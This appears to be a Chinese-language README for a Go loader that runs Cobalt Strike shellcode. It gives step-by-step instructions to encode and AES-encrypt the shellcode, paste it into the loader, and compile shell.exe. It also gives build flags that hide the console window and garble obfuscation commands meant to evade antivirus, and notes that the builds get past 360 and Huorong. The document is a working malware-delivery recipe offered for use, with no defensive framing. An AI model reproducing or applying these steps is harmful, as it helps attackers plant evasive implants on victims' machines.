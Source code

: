 # Go-shellcode(cs)-loader

<u>2022.8.26</u>

原项目：https://github.com/HZzz2/go-shellcode-loader

#### 使用

在cs中生成shellcode（C格式文件），将 \x 全部替换为空
`// \xfc\x48\x83\xe4\xf0...  替换为  fc4883e4f0...`

把替换后的shellcode进行一次base64加密
`//ZmM0ODgzZTRmMA...`

复制到 aes-encrypt.go 的44行，base64-payload处。

![image-20220826091109563](img\image-20220826091109563.png)

执行 aes-encrypt.go 生成 AES 加密的 payload

```
go run aes-encrypt.go
```

![image-20220826091613768](img\image-20220826091613768.png)

复制输出的值，替换 cs-loader.go 的58行 AES-payload

![image-20220826091845149](img\image-20220826091845149.png)

编译成exe文件即可（有黑框）~~（过 360、火绒）~~

```
go build -o shell.exe cs-loader.go
```

编译后执行无黑框 ~~（过火绒，不过360）~~

```
go build -ldflags="-w -s -H windowsgui" -o shell.exe cs-loader.go
```

注：

***直接使用 go 编译会有个黑框（cmd）一直开着，关闭后会直接kill掉进程，但是不会被 360 查杀，可以根据自己的情景进行编译***

也可以使用 garble 进行混淆编译，（免杀效果会更好点）：

```
//有黑框
garble -tiny -literals -seed=random build cs-loader.go
//无黑框
garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" cs-loader.go
```

#### 效果

![image-20220826103413391](img\image-20220826103413391.png)

![image-20220826103454683](img\image-20220826103454683.png)

![image-20220826103850958](img\image-20220826103850958.png)